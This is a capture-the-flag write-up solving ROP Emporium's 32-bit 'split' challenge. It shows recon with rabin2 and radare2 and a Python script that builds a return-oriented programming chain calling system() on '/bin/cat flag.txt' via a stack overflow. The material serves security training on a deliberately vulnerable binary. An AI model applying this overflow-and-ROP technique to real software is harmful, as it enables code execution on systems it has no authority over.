









# split
The challenge is available [here](https://ropemporium.com/challenge/split.html).

## Black-Box Test
Just like in the previous challenge, let's start by running the `split32` program with simple input, such as `ABCD`.

```
./split32
```


Similarly, the return value we want to overwrite is located at the same index as in the previous challenge.

```
perl -e 'print "A"x44 . "\xfe\xbe\xad\xde"' | ./split32
```

```
sudo dmesg -k | tail -2
```


## Finding important details
As you might have guessed, this challenge also has NX protection enabled.

```
rabin2 -I split32 | grep nx
```


Therefore, we will proceed as in the previous challenge and try to find a function that can help us.

```
rabin2 -qs split32 | grep -ve 'imp' -e ' 0 ' -e '_'
```


In fact, the command displays symbols, some of which may be functions, but not only. At this stage, we've found two interesting symbols: `usefulFunction` and `usefulString`. From their names, we can infer what they contain. Let's first check `usefulString`. If it is indeed a string, we can also find it by searching for interesting strings and identify it by its address.

```
rabin2 -z split32
```


As can be seen, the string called `usefulString` is located at address `0x0804a030`, and its content is `"/bin/cat flag.txt"`.

If we can send this string to the `system()` function, we win. Keeping that in mind, let's check the `usefulFunction`.

```
r2 split32
```
```
aa
```
```
afl
```

```
pdf @ sym.usefulFunction
```


It can be seen that the function as a whole won't help us, but it contains a call to the `system()` function, which we do want. Additionally, the helper function pushes the address of the string `"/bin/ls"` onto the stack. We will aim to create a similar state on the stack, where the address of the `usefulString` is at the top of the stack when the call to `system()` is made.

## Solution
Let's summarize in a tables the details we discovered from the research that are important for the ROP Chain.

| String              | Address    |
|---------------------|------------|
| "/bin/cat flag.txt" | 0x0804a030 |


| Code        | Address    |
|-------------|------------|
| call system | 0x0804861a |

* Note: This is not the address of the `system()` function, but rather the command that calls it.

Now we can build the ROP Chain. First, it will consist of 44 garbage characters. Immediately after that, the **address of the command that calls** the `system()` function will appear. As mentioned, the `system()` function expects the call to be made when the address of the string it will operate on is already at the top of the stack. When the program uses the malicious return value, the top of the stack will increase by 4 bytes. Therefore, immediately after the malicious return value, we will add the address of the string `"/bin/cat flag.txt"`.

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer           = b"X"*44
call_system_CODE_ADDR = 0x0804861a # The address of the command that calls the `system` function. Don't confuse it with the concept of a "system call".
cat_STRING_ADDR       = 0x0804a030

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += little_endian(call_system_CODE_ADDR)
ROP_Chain += little_endian(cat_STRING_ADDR)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./split
```


Haida!